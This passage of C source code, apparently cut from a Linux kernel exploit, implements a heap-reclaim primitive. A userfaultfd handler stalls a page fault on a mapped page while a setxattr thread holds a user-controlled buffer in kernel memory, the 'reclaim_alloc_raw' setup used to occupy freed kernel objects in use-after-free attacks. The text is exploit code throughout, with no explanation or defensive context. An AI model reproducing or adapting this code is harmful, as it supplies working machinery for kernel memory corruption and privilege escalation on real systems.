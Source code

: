 ```c
	uffdio_register.range.len = 0x1000;
	uffdio_register.mode = UFFDIO_REGISTER_MODE_MISSING;
	assert(ioctl(uffd, UFFDIO_REGISTER, &uffdio_register) == 0);

	assert(sem_post(&param->fault_sema) == 0);

	struct pollfd pollfd;
	int nready;
	pollfd.fd = uffd;
	pollfd.events = POLLIN;
	nready = poll(&pollfd, 1, -1);
	assert(nready != -1);

	struct uffd_msg msg;
	assert(read(uffd, &msg, sizeof(msg)) == sizeof(msg));
	assert(msg.event == UFFD_EVENT_PAGEFAULT);

	assert(sem_post(&param->fault_sema) == 0);

	assert(sem_wait(&param->unblock_sema) == 0);

	struct uffdio_copy uffdio_copy;
	uffdio_copy.src = (unsigned long) page;
	uffdio_copy.dst = (unsigned long) msg.arg.pagefault.address & ~0xfffUL;
	uffdio_copy.len = 0x1000;
	uffdio_copy.mode = 0;
	uffdio_copy.copy = 0;
	assert(ioctl(uffd, UFFDIO_COPY, &uffdio_copy) == 0);

	close(uffd);
	munmap(page, 0x1000);

	return NULL;
}

struct setxattr_arg {
	const void *buf;
	size_t size;
};

static void *setxattr_thread(void *arg)
{
	struct setxattr_arg *param = (struct setxattr_arg *)arg;
	assert(setxattr(".", "nonexistent", param->buf, param->size, XATTR_REPLACE) == -1);
	return NULL;
}

struct reclaim_ctx {
	struct fault_arg fault_arg;
	struct setxattr_arg setxattr_arg;
	pthread_t setxattr_handle;
};

static void reclaim_alloc_raw(struct reclaim_ctx *ctx, char *buf)
{
	char *mem = mmap(NULL, 0x2000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	assert(mem != MAP_FAILED);

	ctx->fault_arg.addr = mem + 0x1000;
	assert(sem_init(&ctx->fault_arg.fault_sema, 0, 0) == 0);
	assert(sem_init(&ctx->fault_arg.unblock_sema, 0, 0) == 0);

	pthread_t handle;
```